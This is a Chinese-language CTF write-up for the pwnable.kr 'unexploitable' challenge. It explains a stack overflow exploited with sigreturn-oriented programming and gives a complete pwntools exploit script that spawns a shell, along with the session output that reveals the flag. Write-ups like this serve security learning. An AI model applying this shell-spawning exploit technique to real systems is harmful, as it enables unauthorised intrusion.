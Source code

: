 ```yaml
---
title: pwnable.kr-unexploitable
copyright: true
date: 2018-08-06 11:54:02
tags: [pwnable.kr,PWN]
categories: CTF
---
```

# 前言
这是一道关于`linux SROP`的题目，通过系统sigrenturn调用来控制程序流程。
# 分析
这道题的逻辑很简单，贴出反编译代码
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf; // [rsp+0h] [rbp-10h]

  sleep(3u);
  return read(0, &buf, 1295uLL);
}
```
观察`main`函数，发现它有栈溢出漏洞。首先想到的利用方法是通过栈溢出修改程序流程，然后使用可读取内存的函数来leak出`system`的地址。可是通过ida发现当前的got表中并没有可以读内存的函数。
焦虑了一会儿，后来上网一搜，发现还有`linux SROP`的利用方法（参考[Linux SROP 原理与攻击](https://blog.csdn.net/qq_31481187/article/details/73929569)）。只需通过linux的sigreturn系统调用，把栈上的数据依次pop到寄存器中即可完成利用。我这里，通过该调用直接执行了`execve('/bin/sh')`获得shell。下面是exp
```python
from pwn import *

context(arch='amd64')
leave_addr = 0x400576
read_got = 0x601000
main_addr = 0x400544
frame_base = 0x601028
data_base = 0x601018
pop_rbp = 0x400540
gadget_1 = 0x4005e6 #mov rbx,[rsp+8h];mov rbp,[rsp+10h];mov r12,[rsp+18h];mov r13,[rsp+20h];\
                        #mov r14,[rsp+28h];mov r15,[rsp+30h];add rsp,38h;ret;......;ret
gadget_2 = 0x4005d0 #mov rdx,r15;mov rsi,r14;mov edi,r13d;call qword ptr [r12+rbx*8]
syscall_addr = 0x400560 #syscall
#r = process("./unexploitable")
#gdb.attach(r,"b * 0x400577")
#sleep(1)
s = ssh(host='pwnable.kr',user='unexploitable',password='guest',port=2222)
r = s.run('./unexploitable')

def read_poc(addr,maxlen):
    tmp = p64(gadget_1)+p64(0)+p64(0)+p64(1)+p64(read_got)+p64(0)+p64(addr)+p64(maxlen)
    tmp += p64(gadget_2)+'a'*0x38
    return tmp

# write sigreturn frame
frame = SigreturnFrame(kernel='amd64')
frame.rdi = data_base # /bin/sh
frame.rsi = 0
frame.rdx = 0
frame.rax = 59
frame.rip = syscall_addr
poc = 'a'*24+read_poc(frame_base,0x500)+p64(main_addr)
r.send(poc.ljust(1295,'\x00'))
sleep(0.1)
poc = p64(0)+p64(syscall_addr)+str(frame)
r.send(poc.ljust(0x500,'\x00'))

poc = 'a'*24+read_poc(data_base,15)  # rax = 15 && write "/bin/sh" to data_base
poc += p64(pop_rbp)+p64(frame_base)+p64(leave_addr) # rsp => bss_base
r.send(poc.ljust(1295,'\x00'))
sleep(0.1)
r.send("/bin/sh".ljust(15,'\x00'))
sleep(0.1)
r.interactive()
```
```
root@kali:/mnt/hgfs/work/jarvisoj# cd ../pwn-1
root@kali:/mnt/hgfs/work/pwn-1# python unexploitable.py 
[*] Checking for new versions of pwntools
    To disable this functionality, set the contents of /root/.pwntools-cache/update to 'never'.
[*] You have the latest version of Pwntools (3.12.0)
[+] Connecting to pwnable.kr on port 2222: Done
[!] Couldn't check security settings on 'pwnable.kr'
[+] Opening new channel: './unexploitable': Done
[*] Switching to interactive mode
$ ls
$ flag  unexploitable  unexploitable.c
$ $ cat flag
sigreturn rop..? not a secret technique anymore!!
$ $ 
```
# 总结
恩，又学到了新的利用方法。